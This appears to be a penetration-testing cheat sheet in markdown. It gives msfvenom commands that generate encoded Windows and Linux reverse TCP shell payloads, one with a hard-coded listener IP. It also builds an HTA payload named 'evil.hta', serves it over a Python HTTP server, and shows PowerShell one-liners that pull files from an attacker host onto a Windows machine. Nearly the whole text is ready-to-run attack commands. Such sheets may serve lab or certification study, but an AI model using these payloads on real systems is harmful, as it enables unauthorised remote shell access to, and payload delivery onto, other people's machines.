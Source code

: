 
### Windows reverse tcp shells

#### Shikata ga nai
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<listening_host> LPORT=<listening_port> EXITFUNC=thread -f c -e x86/shikata_ga_nai -b <illegal characters as string ie. "\x00\x12...">
```

#### Fnstenv mov
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<listening host> LPORT=<listening port> -f c -e x86/fnstenv_mov -b "\x00\x0a\x0d\xff\x3b\x45..."
```

### Linux reverse tcp shells

```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.194 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b <illegal characters as string ie. "\x00\x12...">
```

## Leveraging HTML applications

### msfvenom hta payload

```sh
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<listening_host> LPORT=<listening_port> -f hta-psh -o evil.hta 
```

Next, serve the file on port 80

```sh
sudo python -m SimpleHTTPServer 80
```


## FIle transfer

### Linux to Windows:

**IF USING FTP TRANFERRING BINARIES, REMEMBER TO USE FTP BINARY MODE FIRST**
#### Powershell
In powershell:
```powershell
$client = new-object System.Net.WebClient
$client.DownloadFile("http://192.168.119.194/tmp.txt","C:\tmp\file.txt")
```

One line form:
```powershell
(new-object System.Net.WebClient).DownloadFile('http://www.xyz.net/file.txt','C:\tmp\file.txt')
```
